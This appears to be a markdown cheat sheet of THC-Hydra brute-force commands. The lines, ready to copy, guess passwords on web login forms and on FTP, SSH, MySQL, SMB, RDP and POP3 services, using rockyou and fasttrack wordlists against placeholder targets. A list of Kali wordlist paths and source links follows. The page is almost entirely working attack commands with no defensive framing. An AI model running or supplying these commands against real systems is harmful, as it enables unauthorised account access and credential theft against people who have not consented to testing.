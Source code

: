 # Brute Force THC-Hydra

## HTTP Post Web Form

$ hydra -L user-lst.txt -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/Login Page:Request Body:Error Message"

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt http://example.com:8080  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp -I

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 12021 ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://url-name.co

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP ssh -I

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -s 2222 ssh

$ hydra -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://url-name.co:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 mysql -I

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -f -l username -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 rdp -I

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP -s 53389 rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://url-name.co:33389/

## POP3

$ hydra -f -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP pop3 -I

$ hydra -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP -s 10110 pop3

## Dir Kali Passwords Wordlists

/usr/share/wordlists/rockyou.txt

/usr/share/wordlists/fasttrack.txt

/usr/share/wordlists/john.lst

/usr/share/wordlists/nmap.lst

/usr/share/wordlists/legion

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
